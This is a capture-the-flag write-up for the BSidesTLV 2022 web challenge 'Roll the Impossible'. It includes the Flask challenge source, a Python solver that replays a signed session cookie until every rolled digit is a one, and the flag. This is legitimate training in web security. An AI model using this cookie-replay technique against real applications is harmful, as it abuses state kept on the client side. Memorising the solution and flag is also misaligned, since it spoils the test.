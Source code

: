 ## Web: Roll the Impossible (300)

### Description/Source

```python
#flask-server.py
import os
import challenge
from flask import Flask, session, render_template

app = Flask(__name__)
app.secret_key = os.getenv("SECRET_KEY", os.urandom(32))

@app.route("/")
def init():
    challenge.init()
    return render_template("index.html")

@app.route("/step", methods=["POST"])
def step():
    return challenge.step()
```

```python
#challenge.py
from flask import session
import flag
import random

CTX_FIELDS = ["question", "num"]
NUM_DIGITS = 10
FISH_IN_SEA = 3500000000000 # thanks wikipedia

QUESTIONS_LIST = {"roll a negative number": lambda num: int(num) < 0,
        "roll a number that is divisable by 10": lambda num: int(num) % 10 == 0,
        "roll a number that contains only ones": lambda num: all(x == "1" for x in num),
        "roll the number of fish in the sea": lambda num: int(num) == random.randrange(FISH_IN_SEA),
        "misdirection": lambda num: True}

def is_context_exist():
    return all(key in session for key in CTX_FIELDS)

def init():
    question = random.choice(list(QUESTIONS_LIST.keys())[:-1])

    # init context, must contain all the fields in CTX_FIELDS
    session["question"] = question
    session["num"] = ""

def step():
    if not is_context_exist():
        return {"num": "", "new_digit": "", "flag": "invalid session data"}
    # load data from the session
    question = session["question"]
    num = session["num"]

    _flag = ""
    new_digit = ""
    if len(num) < NUM_DIGITS:
        # roll a new digit and update the number
        new_digit = str(random.randrange(9)+1)
        num += new_digit
    if len(num) == NUM_DIGITS:
        if QUESTIONS_LIST[question](num):
            _flag = flag.FLAG
        else:
            _flag = "wrong :("

    # store the changed data to the session
    session["num"] = num
    return {"num": num,
            "new_digit": new_digit,
            "flag": _flag}
```

We have to get one of the questions in `QUESTIONS_LIST` to evaluate to true. Everything is impossible except for rolling a number that consists of 10 consecutive ones.

Your current number and question is determined and protected by a flask session cookie, which can't be cracked. (There was a misdirection with a fake session key in the docker file lol)

The way to solve is to note that each digit is rolled one at a time. So we can keep using the existing cookie that has our existing number, and keep rolling until it returns a `1`.

### Solver

```python
from base64 import b64decode
import requests

url = "https://roll-the-impossible.ctf.bsidestlv.com/"


def extractCookie(response):
    return response.headers['Set-Cookie'].split(';')[0].split('=')[1]


def getBaseCookie():
    r = requests.get(url)
    actual_cookie = extractCookie(r)
    first_cookie = b64decode(actual_cookie + '==')
    if b'only ones' in first_cookie:
        return actual_cookie
    else:
        return False

base = getBaseCookie()
while not base:
    base = getBaseCookie()

print("Got base cookie:", base)

def getOne(base_cookie):
    success = False
    while not success:
        r = requests.post(url + '/step', cookies={'session': base_cookie})
        if eval(r.text)['new_digit'] == '1':
            print(r.text)
            return extractCookie(r)

for i in range(10):
    base = getOne(base)

```

### Flag

```
BSidesTLV2022{r0ll_back_th3_1mp0ssib111111111111e}
```

